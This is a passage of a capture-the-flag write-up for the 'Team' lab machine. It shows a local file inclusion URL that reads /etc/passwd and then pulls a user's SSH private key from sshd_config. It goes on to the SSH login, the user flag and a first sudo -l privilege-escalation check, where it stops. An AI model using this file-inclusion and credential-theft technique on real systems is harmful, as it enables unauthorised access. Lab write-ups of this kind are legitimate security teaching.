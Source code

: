 <img src="https://i.imgur.com/4nnIEbH.png">

## LFI exploit
On the website of the developer it is indicated that the site is being built and there is also a link. I click on this link and I find the following URL in the path : `http://dev.team.thm/script.php?page=teamshare.php` 

It looks like there is a `local file inclusion vulnerability` in place here. I test it by trying to retrieve the contents of `/etc/passwd` with the following URL : `http://dev.team.thm/script.php?page=/etc/passwd` :

<img src="https://i.imgur.com/qtjWbrs.png">

So there is a LFI vulnerability that allows me to read files on the server.   
The message in the FTP directory referred to a `id_rsa` file containing the user's private key `dale` or `gyles` in a configuration file. So I look for it in order to try to connect with `ssh` to the machine.

After some research, I found the private key of the user `dale` in an SSH configuration file `/etc/ssh/sshd_config` : 
<img src="https://i.imgur.com/GaZMGc5.png">

I place the private key and reformat it in a file named `id_rsa`. I change the permission of the file with the command `chmod` and I try to connect with `ssh` to the machine :
```
└─# chmod 600 id_rsa  
└─# ssh -i id_rsa dale@team.thm
Last login: Mon May  1 17:42:34 2023 from 10.8.75.8
dale@TEAM:~$ whoami
dale
```

## User flag
Let's get the user.txt flag :
```
dale@TEAM:~$ ls
user.txt
dale@TEAM:~$ cat user.txt 
THM{***********}
```

## Privilege escalation
After having obtained a user access, I now try to get a root access in order to recover the root flag. <br>

As always, on a linux machine, I run the command `sudo -l` to find commands which we can execute as other users :
```
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
